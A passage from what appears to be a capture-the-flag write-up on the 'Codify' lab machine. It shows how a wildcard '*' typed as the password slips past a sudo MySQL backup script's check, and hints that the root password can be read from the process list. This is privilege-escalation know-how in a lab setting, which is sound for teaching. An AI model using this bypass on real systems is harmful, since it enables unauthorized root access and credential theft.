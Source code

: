 The script was reading the MySQL password from a file in the root home folder. Then it asked the user for the same password to confirm they knew it. If they didn't, the script would display an error message and exit. If they had the correct password, it would use `mysqldump` to perform the backup of the database.

When the script performed the backup, it used the password that it read from the file, not the one provided by the user. That meant that if I could find a way to trick the `if` statement, I did not really need to know the password.

I tried a few things to trick the `if` statement. Using semicolons, backticks, and other command injections tricks did not work. I simply needed to use a wildcard (*) as the password to pass the validation.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
[sudo] password for joshua:
Enter MySQL password for root:
Password confirmation failed!

joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

This worked, but I was not allowed to read the backup files.

```bash
joshua@codify:~$ ls -la /var/backups/mysql/
ls: cannot access '/var/backups/mysql/mysql.sql.gz': Permission denied
ls: cannot access '/var/backups/mysql/.': Permission denied
ls: cannot access '/var/backups/mysql/..': Permission denied
ls: cannot access '/var/backups/mysql/sys.sql.gz': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
-????????? ? ? ? ?            ? mysql.sql.gz
-????????? ? ? ? ?            ? sys.sql.gz
```

Having the backup working did not really help if I could not read the files it produced. But the output of the script had a hint about the next step. It was there three times.

```bash
mysql: [Warning] Using a password on the command line interface can be insecure.
...
mysqldump: [Warning] Using a password on the command line interface can be insecure.
...
mysqldump: [Warning] Using a password on the command line interface can be insecure.
```
